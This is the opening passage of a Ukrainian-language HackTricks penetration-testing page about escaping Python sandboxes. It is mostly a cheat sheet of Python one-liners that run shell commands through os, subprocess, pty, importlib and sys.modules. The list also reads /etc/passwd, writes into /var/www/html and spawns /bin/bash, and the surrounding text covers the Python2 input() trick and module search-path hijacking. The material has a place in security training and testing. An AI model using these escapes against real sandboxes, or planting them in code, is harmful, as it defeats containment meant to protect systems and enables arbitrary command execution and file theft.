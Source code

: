 # Обхід Python sandboxes

{{#include ../../../banners/hacktricks-training.md}}

Це кілька трюків для обходу захистів python sandbox і виконання довільних команд.

## Бібліотеки виконання команд

Перше, що потрібно знати — чи можете ви безпосередньо виконувати код за допомогою якоїсь вже імпортованої бібліотеки, або чи можете імпортувати будь-яку з цих бібліотек:
```python
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls")
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")
pdb.os.system("ls")

#Import functions to execute commands
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *

#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

#In Python2.7
execfile('/usr/lib/python2.7/os.py')
system('ls')
```
Пам'ятайте, що функції _**open**_ і _**read**_ можуть бути корисні для **читання файлів** всередині python sandbox та для **запису коду**, який ви могли б **виконати**, щоб **bypass** sandbox.

> [!CAUTION] > **Python2 input()** function дозволяє виконати python-код перед тим, як програма аварійно завершиться.

Python намагається **спочатку завантажувати бібліотеки з поточного каталогу** (наступна команда виведе, звідки python завантажує модулі): `python3 -c 'import sys; print(sys.path)'`

![](<../../../images/image (559).png>)
